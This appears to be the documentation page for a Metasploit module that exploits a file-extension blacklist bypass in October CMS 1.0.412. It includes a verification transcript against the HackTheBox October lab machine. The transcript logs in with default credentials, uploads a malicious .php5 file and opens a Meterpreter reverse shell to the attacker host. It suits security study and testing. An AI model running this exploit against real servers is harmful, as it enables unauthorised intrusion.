 
## Description
An authenticated user with permission to upload and manage media contents can
upload various files on the server. The application prevents the user from
uploading PHP code by checking the file extension. It uses blacklist based
approach, as seen in octobercms/vendor/october/rain/src/Filesystem/
Definitions.php:blockedExtensions().

## Vulnerable Software
https://www.exploit-db.com/apps/4ff8a9688f31b7338020d0bc85da13fc-october-1.0.412.tar.gz

## Author
Anti Räis (Discovery)
Touhid M.Shaikh (Metasploit Module)

## References
https://www.exploit-db.com/exploits/41936

## Tested on
HackTheBox October Machine (IP: 10.10.10.16)

## Verification
msf5 > use exploit/multi/http/october_upload_bypass_exec
msf5 exploit(multi/http/october_upload_bypass_exec) > set rhosts 10.10.10.16
rhosts => 10.10.10.16
msf5 exploit(multi/http/october_upload_bypass_exec) > setg verbose true
verbose => true
msf5 exploit(multi/http/october_upload_bypass_exec) > set lhost 10.10.14.8
lhost => 10.10.14.8
msf5 exploit(multi/http/october_upload_bypass_exec) > run 

[*] Started reverse TCP handler on 10.10.14.8:4444 
[+] Token for login : 3ySsc8d8VNMm2V8x3Ns4cay05bwhRxnoIkQjRnBP
[+] Session Key for login : uVNSZ2YRUm39cf8kqJcWV0qr9xhqq9krCYHeVI6m
[*] Trying to Login ......
[+] Authentication successful: admin:admin
[*] Trying to upload malicious WLMVDKmVpCX.php5 file ....
[*] Sending stage (38247 bytes) to 10.10.10.16
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.16:54124) at 2019-09-03 12:19:20 +0530

meterpreter > sysinfo 
Computer    : october
OS          : Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686
Meterpreter : php/linux
meterpreter > 
